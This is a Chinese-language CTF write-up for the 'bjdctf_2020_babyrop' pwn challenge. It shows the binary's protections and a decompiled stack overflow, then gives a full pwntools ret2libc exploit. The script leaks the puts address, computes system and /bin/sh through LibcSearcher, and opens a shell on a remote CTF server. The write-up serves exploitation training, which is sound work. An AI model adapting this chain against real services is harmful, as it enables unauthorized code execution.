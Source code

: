 ```yaml
---
title: bjdctf_2020_babyrop1
date: 2022-07-14 16:02:02
permalink: /pages/2a9d1c/
categories:
  - 网络安全
  - pwn
tags:
  - 
author: 
  name: jimmy
  link: https://github.com/Riam-jimmy
---
```

# bjdctf_2020_babyrop1

### 文件保护

```
[*] '/home/root/Desktop/pwn/bjdctf_2020_babyrop'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

### 主函数

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  init(argc, argv, envp);
  vuln();
  return 0;
}
```

- vlun 函数

```C
ssize_t vuln()
{
char buf[32]; // [rsp+0h] [rbp-20h] BYREF

 puts("Pull up your sword and tell me u story!");
 return read(0, buf, 0x64uLL);
}
```

### 思路及分析

> 已知信息

- 无后门程序

- 无保护

- nx 开启

- no pie

- 溢出点为 read

> 分析

- 标准的 ret2libc，先泄露 lib 及其函数地址后，计算其偏移得出 system 和 binsh 的地址，构造 payload，得到 shell

### payload

```python
from pwn import *
from LibcSearcher import *
context(os='linux',arch='amd64',log_level='debug')
context.terminal = ['tmux', 'splitw', '-h']
py=0x20+8
# io=process('./bjdctf_2020_babyrop')
io=remote("node4.buuoj.cn",27686)
elf=ELF('./bjdctf_2020_babyrop')
# gdb.attach(io,'b puts')
pop_rdi=0x0000000000400733
puts_plt_addr=elf.plt['puts']
puts_got_addr=elf.got['puts']
main_addr=elf.symbols['main']
ret=0x00000000004004c9
io.sendline(flat(['a'*py,pop_rdi,puts_got_addr,puts_plt_addr,main_addr]))
puts_addr=u64(io.recvuntil('\x7f')[-6:].ljust(8,b'\x00'))
# log.success("system_addr:"+hex(puts_addr))
# print(hex(puts_addr))
libc=LibcSearcher('puts',puts_addr)
basepy=puts_addr-libc.dump('puts')
system_addr=basepy+libc.dump('system')
bin_sh_addr=basepy+libc.dump('str_bin_sh')
io.sendline(flat(['a'*py,ret,pop_rdi,bin_sh_addr,system_addr]))
io.interactive()
```
